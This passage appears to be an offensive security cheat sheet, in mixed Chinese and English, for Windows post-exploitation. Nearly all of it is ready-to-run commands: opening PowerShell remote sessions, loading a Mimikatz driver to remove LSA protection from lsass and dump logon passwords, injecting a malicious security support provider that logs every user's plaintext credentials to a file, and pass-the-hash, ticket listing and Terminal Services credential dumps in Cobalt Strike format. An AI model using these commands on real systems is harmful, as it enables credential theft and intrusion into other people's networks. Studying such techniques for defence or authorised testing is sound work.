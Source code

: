 
```cpp
#Create a new session
$sess = New-PSSession -ComputerName <NameOfComputer>

#Execute command on the session
Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}

#Check the result of the command to confirm we have an interactive session
Invoke-Command -Session $sess -ScriptBlock {$ps}
```
### Mimikatz


如果mimikatz由于LSA保护而未能Dump凭据怎么办？
到目前为止，我知道两种解决方法：

- LSA as a Protected Process
```cpp
#通过查看变量RunAsPPL是否设置为0x1来检查LSA是否作为受保护的进程运行
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa

#接下来将mimidriver.sys从官方mimikatz存储库上传到mimikatz.exe的同一文件夹
#现在将mimidriver.sys导入系统
mimikatz # !+

#Now lets remove the protection flags from lsass.exe process
mimikatz # !processprotect /process:lsass.exe /remove

#Finally run the logonpasswords function to dump lsass
mimikatz # sekurlsa::logonpasswords
```


- LSA作为凭据进程的虚拟化进程（LSAISO）运行



```cpp
#Check if a process called lsaiso.exe exists on the running processes
tasklist |findstr lsaiso

＃如果确实没有办法转储lsass，我们将只获得加密的数据。 但是我们仍然可以使用键盘记录器或剪贴板转储器来捕获数据。
＃让我们将自己的恶意安全支持提供程序注入内存，在此示例中，我将使用mimikatz提供的
mimikatz # misc::memssp

#＃现在将登录到此计算机的每个用户会话和身份验证，并将捕获纯文本凭据并将其存储到c:\windows\system32\mimilsa.log
```




```cpp
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#列出内存中的票据
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

```